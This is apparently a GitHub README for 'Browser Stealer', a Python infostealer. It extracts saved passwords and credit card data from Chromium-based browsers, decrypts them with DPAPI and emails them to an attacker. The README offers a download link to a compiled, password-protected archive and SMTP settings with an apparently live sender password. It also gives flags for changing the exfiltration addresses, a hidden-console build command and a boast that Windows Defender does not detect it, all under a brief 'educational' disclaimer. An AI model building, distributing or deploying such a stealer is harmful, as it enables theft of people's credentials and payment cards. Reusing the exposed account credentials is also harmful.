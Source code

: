 # Browser Stealer
Finds Internet browsers and applications that use those browsers. It detects files that hold personal information such as username and password, and credit card information. It decrypts these files using DPAPI. It transmits this information to the attacker via email.

**1) The algorithm used by the program for saved passwords is shown in the graphic below.**
![key1](https://user-images.githubusercontent.com/71177413/166139625-fd15d6ea-6355-4a80-ae83-15b6437b54e5.JPG)

**2) The algorithm used by the program for saved credit cards is shown in the graphic below.**
![key2](https://user-images.githubusercontent.com/71177413/166139633-a23d31a5-d098-440d-ba6b-ae36995777b7.JPG)


Supported Browsers
---
This python program gets all the saved passwords and credit cards from chromium based browsers supports chromium 80 and above!
<dl>
  <dt> Supported some browsers
  <dd>
  <dd> ✔ Chrome
  <dd> ✔ Brave
  <dd> ✔ Edge (Chromium)
  <dd> ✔ Opera
  <dd> ✔ Yandex
  <dd> ✔ Other browsers
</dl>


The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> Browser Stealer
  <dd>
  <dd> Browser_Stealer.rar --> zip password: "BrOWserSteaLEr2022"
  <dd> Link = https://drive.google.com/file/d/1Q2XkhU64vHzKfyxmuPh-c9U3JdoqFeyS/view?usp=sharing
</dl>

Requirements
---
Required libraries:  pywin32, pycryptodome, pyinstaller

```
pip install pywin32
pip install pycryptodome
pip install pyinstaller
```

"pyinstaller" will be used to make the code one piece executable


Settings
---
![A](https://user-images.githubusercontent.com/71177413/166140037-c624e1f9-eaf7-48dc-953b-c28ad4e80d15.JPG)

```
    SMTP_SERVER      = "smtp-mail.outlook.com"           # SMTP server for e-mail to be sent
    SMTP_PORT        = "587"                             # SMTP port for e-mail to be sent
    SENDER_ADDRESS   = "ajehdfgruewsf@outlook.com"       # Sender e-mail address
    SENDER_PASS      = "uy8mNbvx4c9agehe5uwk6wxv"        # Sender e-mail password
    RECEIVER_ADDRESS = "python.test.email@outlook.com"   # Receiver e-mail address
```

<dl>
  <dt>
  <dt> Some settings can be changed with initial parameters if desired.
  <dd>
  <dd> -smail:***          ==> sets sender e-mail address   ["SENDER_ADDRESS"]
  <dd> -spass:***          ==> sets sender e-mail password  ["SENDER_PASS"]
  <dd> -rmail:***          ==> sets receiver e-mail address ["RECEIVER_ADDRESS"]
</dl> 

<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> Browser_Stealer.exe  -smail:gungor@outlook.com -spass:123jKl789 -rmail:receiver@mail.com
  <dd>
</dl>

![5](https://user-images.githubusercontent.com/71177413/166140529-f69a38f2-59ef-4e8c-a577-2b548dc82245.JPG)


Compilation
---
[Language : Python 3.8.5]
```
pyinstaller --onefile --noconsole --icon=Browser_Stealer.ico Browser_Stealer.py
```

Some Screenshot of the Working of the Program
---

**Screenshot [1] (Depending on your e-mail settings, e-mails may fall into junk email.)**
![2](https://user-images.githubusercontent.com/71177413/166143957-9f4f56f2-78a6-478b-be33-cc359767bc75.JPG)


**Screenshot [2] (When the program runs, it sends the information to the e-mail address in its settings.)**
![3](https://user-images.githubusercontent.com/71177413/166144090-8fb3048f-9bca-47f8-beaa-46ecad1669cd.JPG)


**Screenshot [3] (The e-mail address can be changed by sending the parameters to the program at the beginning.)**
![4](https://user-images.githubusercontent.com/71177413/166144022-c4fb9fc9-fe39-43e1-896e-af37611de673.JPG)


Windows Defender
---
As of 01/05/2022, it is not caught by the Windows Defender program. Over time this will change.

Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.
